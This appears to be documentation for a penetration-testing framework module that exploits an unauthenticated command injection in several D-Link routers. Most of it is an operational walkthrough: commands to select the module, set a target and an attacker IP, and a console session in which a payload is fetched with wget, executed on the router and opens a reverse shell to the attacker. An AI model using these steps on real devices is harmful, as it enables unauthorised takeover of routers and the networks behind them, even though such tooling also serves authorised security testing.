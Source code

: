 ## Description

Module exploits unauthenticated remote code execution occurs in D-Link products such as DIR-655C, DIR-866L, DIR-652, and DHP-1565.

## Verification Steps

  1. Start `./rsf.py`
  2. Do: `use exploits/routers/dlink/dir_655_866_652_rce`
  3. Do: `set target [TargetIP]`
  4. Do: `run`
  5. If router is vulnerable, it should be possible to execute commands on operating system level.
  
  6. Do: `set payload reverse_tcp`
  7. Do: `set lhost [AttackerIP]`
  8. Do: `run`
  9. Payload is sent to device and executed providing attacker with the command shell.

## Scenarios

```
rsf > use exploits/routers/dlink/dir_655_866_652_rce
rsf (D-Link PingTest RCE) > set target 192.168.1.1
[+] target => 192.168.1.1
rsf (D-Link PingTest RCE) > run
[*] Running module exploits/routers/dlink/dir_655_866_652_rce...
[+] Target is vulnerable
[*] Invoking command loop...
[*] It is blind command injection, response is not available

[+] Welcome to cmd. Commands are sent to the target via the execute method.
[*] For further exploitation use 'show payloads' and 'set payload <payload>' commands.

cmd > show payloads
[*] Available payloads:

   Payload         Name                   Description
   -------         ----                   -----------
   bind_tcp        MIPSLE Bind TCP        Creates interactive tcp bind shell for MIPSLE architecture.
   reverse_tcp     MIPSLE Reverse TCP     Creates interactive tcp reverse shell for MIPSLE architecture.

cmd > set payload reverse_tcp
cmd (MIPSLE Reverse TCP) > show options

Payload Options:

   Name      Current settings     Description
   ----      ----------------     -----------
   lhost                          Connect-back IP address
   lport     5555                 Connect-back TCP Port


cmd (MIPSLE Reverse TCP) > set lhost 192.168.1.4
lhost => 192.168.1.4
cmd (MIPSLE Reverse TCP) > run
[*] Using wget method
[*] Using wget to download binary
[*] Executing payload on the device
[*] Waiting for reverse shell...
[*] Connection from 192.168.1.1:41933
[+] Enjoy your shell
ls -la
drwxrwxrwx   15 admin    root           224 Mar 11  2013 .
drwxrwxrwx   15 admin    root           224 Mar 11  2013 ..
drwxr-xr-x    2 admin    root          2554 Mar 11  2013 bin
drwxr-xr-x    2 admin    root             3 Mar 11  2013 data
drwxr-xr-x    4 admin    root          2482 Mar 11  2013 dev
drwxr-xr-x   12 admin    root           779 Mar 11  2013 etc
drwxr-xr-x    6 admin    root           690 Mar 11  2013 lib
lrwxrwxrwx    1 admin    root            11 Mar 11  2013 linuxrc -> bin/busybox
drwxr-xr-x    2 admin    root             0 Jan  1  1970 mnt
drwxr-xr-x    5 admin    root            56 Mar 11  2013 opt
dr-xr-xr-x   69 admin    root             0 Jan  1  1970 proc
drwxr-xr-x    2 admin    root           270 Mar 11  2013 sbin
drwxr-xr-x   11 admin    root             0 Jan  1  1970 sys
lrwxrwxrwx    1 admin    root             8 Mar 11  2013 tmp -> /var/tmp
drwxr-xr-x    4 admin    root            38 Mar 11  2013 usr
drwxr-xr-x   16 admin    root             0 Oct 19 20:36 var
drwxr-xr-x    5 admin    root          2801 Mar 11  2013 webs
```